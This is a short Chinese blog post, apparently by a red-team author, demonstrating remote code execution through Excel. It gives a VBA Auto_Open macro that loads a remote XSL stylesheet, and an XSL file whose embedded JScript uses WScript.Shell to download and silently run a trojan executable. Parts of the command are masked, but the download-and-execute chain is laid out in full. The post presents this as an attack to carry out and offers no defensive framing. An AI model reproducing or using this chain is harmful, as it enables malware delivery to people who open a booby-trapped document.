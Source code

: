 ```yaml
---
title: EXCEL远程执行
author: APT - 0x44LL
date: 2021-01-17
category: Jekyll
layout: post
---
```


## EXCEL远程执行演示

<iframe 
    width=770
    height=435
    src="https://player.youku.com/embed/XNTg0MDAwMzIxMg==" 
    frameborder=0
    allowfullscreen>
</iframe>

## 准备工作：<br>
**1.创建以下两个文件<br>**
<font color=Red>
excel.xsl<br>
ATT.xsl<br>
ATT.exe<br>
</font>
---

> excel.xsl

```
Sub Auto_Open()
    Set XML = CreateObject("Microsoft.XMLDOM")
    XML.async = False
    Set xsl = XML
    xsl.Load "http://127.0.0.1:80/ATT.xsl"
    XML.transformNode xsl
End Sub
```


> ATT.xsl

```
<xsl:stylesheet 
xmlns:xsl="http://www.w3.org/1999/XSL/Transform" 
xmlns:ms="urn:schemas-microsoft-com:xslt" 
xmlns:user="placeholder" 

version="1.0">
<ms:script implements-prefix="user" language="JScript">
<![CDATA[
var r = new ActiveXObject("WScript.Shell").Run("cmd xxxxx -xx 127.0.1.1/ATT.exe xxxx/ATT.exe & start xxxx/ATT.exe",0);
  ]]>
</ms:script>
</xsl:stylesheet>
```

> ATT.exe

```
这是远控生成的木马
```

**<font color=Red face="黑体">将ATT.xsl调用ATT.exe执行,当excel.xsl打开就会进行远程加载ATT.xsl并下载在本地执行ATT.exe木马程序；</font>**


